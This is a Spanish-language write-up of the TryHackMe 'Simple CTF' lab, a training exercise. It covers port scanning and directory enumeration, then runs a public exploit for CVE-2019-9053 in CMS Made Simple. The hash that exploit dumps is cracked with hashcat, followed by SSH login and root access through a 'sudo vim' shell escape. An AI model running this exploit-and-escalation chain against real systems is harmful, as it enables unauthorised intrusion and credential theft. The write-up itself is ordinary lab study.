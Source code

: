 # Simple CTF

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 4 de diciembre de 2024 21:53
IP: 10.10.186.87

## Notas

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

![imagenes/image.png](<imagenes/image.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 21
    - 2222
    - 80
    

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>

```

![imagenes/image.png](<imagenes/image 1.png>)

Miramos la web y el contenido de robots.txt

![imagenes/image.png](<imagenes/image 2.png>)

Vemos que el directorio no esta visible
Probamos con gobuster

```bash
gobuster dir -u <http://10.10.186.89> -w /usr/share/wordlist/seclit/Discovery/Web-Content/directory-list-2.3-mediu.txt

Output:

/simple

```

![imagenes/image.png](<imagenes/image 3.png>)

## Explotación

### Explotación 1

Vulnerabilidad Potencial**: CVE-2019-9053
CMS Made Simple < 2.2.10 - SQL Injection

- **Exploit Disponibles**:
    
    ```bash
    searchsploit CMS Made simple 2.2.8
    Output:
    CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
    ```
    

NOTA: Ejecutamos el script. Para que funcione con python3, ha que poner con () todas las declaraciones print que van con “

```bash
python3 46635.py
```

![imagenes/image.png](<imagenes/image 4.png>)

```bash
+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

### Explotación 2

Probamos a desencriptar el hash

```bash
hashcat -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlist/rockyou.txt
#
10 = md5($pass.$salt)
20 = md5($salt.$pass)

Output :
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```

### Explotación 3

Conectamos por ssh

```bash
ssh -p 2222 mitch@10.10.186.87

```

## Explotación posterior

### Escalada de privilegios

Accedemos como mitch

```bash
   sudo -l

   User mitch may run the following commands on Machine:
   (root) NOPASSWD: /usr/bin/vim
```

Buscamos el binario en GTFObins

```bash
Payload:
sudo vim -c ':!/bin/sh'

```

Probamos a obtener la shell: 

![imagenes/image.png](<imagenes/image 5.png>)

### Obtención de user.txt

- **Localización**:
    
    ```bash
    find / -name "user.txt"
    cat /path/to/user.txt
    Output: G00d j0b, keep up!
    ```
    

### Obtención de Root.txt

- **Localización**:
    
    ```bash
    find / -name "root.txt"
    cat /path/to/root.txt
    Output: W3ll d0n3. You made it!
    ```
    

## Conclusión